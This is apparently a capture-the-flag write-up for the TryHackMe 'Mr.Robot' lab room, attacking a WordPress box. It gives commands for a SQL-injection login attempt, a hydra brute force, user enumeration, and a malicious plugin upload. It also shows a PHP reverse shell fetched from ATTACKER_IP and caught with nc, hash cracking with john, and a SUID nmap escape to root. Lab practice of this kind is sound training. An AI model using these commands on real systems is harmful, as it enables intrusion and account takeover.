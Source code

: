 # Mr.Robot

[TryHackMe Room](https://tryhackme.com/room/mrrobot)

## 1st flag

XHR request done from main blog page when `join`ing and entering some email is

```bash
curl 'http://10.10.255.85/join' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.255.85/join' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: s_cc=true; s_fid=5BB7F03E8E557905-365A053F5893E838; s_nr=1617470829556; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check' --data-raw 'email=hello%40example.com'
```

but the response is a page not found. Just a rabbit hole?

`/robots.txt`

```txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

`http://10.10.255.85/key-1-of-3.txt` is the first flag

## 2nd flag

`fsocity.dic` is a wordlist. TODO find out for what?

Error page shown for
`http://10.10.255.85/fsociety.dic`
leads to
`http://10.10.255.85/wp-login.php`

### Login page

`http://10.10.255.85/wp-login.php`

on login:

```bash
curl 'http://10.10.255.85/wp-login.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.255.85/wp-login.php' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: s_cc=true; s_fid=5BB7F03E8E557905-365A053F5893E838; s_nr=1617468117779; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'log=admin&pwd=%27+OR+1%3D1--&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.255.85%2Fwp-admin%2F&testcookie=1'
```

```bash
hydra -v -V -L fsocity.dic -P fsocity.dic 10.10.255.85 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:ERROR\: Invalid username'
```

likely usernames:

```txt
mrrobot
root
admin
fsociety
```

passwords: possibly from the `fsocity.dic` wordlist

```bash
curl 'http://10.10.255.85/wp-login.php?action=lostpassword' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://10.10.255.85/wp-login.php?action=lostpassword' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Connection: keep-alive' -H 'Cookie: s_cc=true; s_fid=5BB7F03E8E557905-365A053F5893E838; s_nr=1617469117638; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'user_login=mr.robot&redirect_to=&wp-submit=Get+New+Password'
```

`'ERROR: Invalid username or e-mail.'`

timestamp on image in `/image`
`1:50:52`

### Enumerating user accounts

With `http://10.10.255.85/wp-login.php?action=lostpassword` we can enumerate users. An error response has `Invalid username or e-mail.` in it. Not having this error response means we found a valid user.

We adopted the brute force python script to get the following users

```log
Elliot
elliot
ELLIOT
Elliot
```

### Brute force login

pw is at the end of the `fsocity.dic` -> `ER28-0652`

## Wordpress Admin

users

```bash
kgordon@therapist.com
mich05654:password # changed pw to this
```

## Getting a shell

upload this [Malicious Wordpress plugin](https://github.com/wetw0rk/malicious-wordpress-plugin).
Then activate it by navigating to `http://(target)/wp-content/plugins/malicious/wetw0rk_maybe.php`
Result: meterpreter session

## Getting a tty (interactive shell)

in the meterpreter session type `shell` to get a shell on the target.

```bash
# on attacker
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
cd ~/Downloads
nano php-reverse-shell.php # set the IP to the attacker machine's IP for the reverse shell, default port is 1234
python3 -m http.server

# on target
cd .. # should now be in the directory where all the wordpress plugins are stored - with write access
wget ATTACKER_IP:8000/php-reverse-shell.php

# on attacker
sudo apt install rlwrap
rlwrap nc -lvnp 1234
# with the wordpress admin user logged-in in the browser, goto http://10.10.111.156//wp-content/plugins/r2.php to start the reverse-shell

# in the new reverse-shell
python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

**Result**: shell should be upgraded to interactive (tty). `daemon@linux:/$` is shown before the cursor.

## 2nd flag so-close

`ls /home/robot`

### cracking the pw

```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 robot-hash.txt
# abcdefghijklmnopqrstuvwxyz (robot)
```

Unfortunately, the ssh port is closed

## Horizontal PrivEsc

find files with SUID bit set

```bash
find / -perm -u=s 2>/dev/null #SUID
find / -perm /2000 2>/dev/null # GUID
```

**Problem:** no tty -> no sudo, su, ssh

### attempts

- [x] SUID bit -> no tty
- [x] ssh external login -> port 22 is closed
- [x] ssh internal login -> no tty
- [x] better reverse shell -> works
  - use pentestmonkey php-reverse-shell.php with `python -c 'import pty; pty.spawn("/bin/bash")'`
  - `export TERM=xterm`
  - `su robot`
- [x] `sudo -V` -> 1.8.9p5 not vulnerable
- [x] linux version `uname -a` -> 3.13.0.55-generic -> <https://www.exploit-db.com/exploits/37293> -> not working (`mount: only root can do that`)
- [x] backup, log, config files -> no access or nothing out of the ordinary
- [x] cronjob to get credentials for `bitnami`

## Root access

SUID bit (2nd attempt with a proper tty)
`nmap --interactive` then `!sh`
WHOOHOO root access
`cd /root` and cat out the final flag
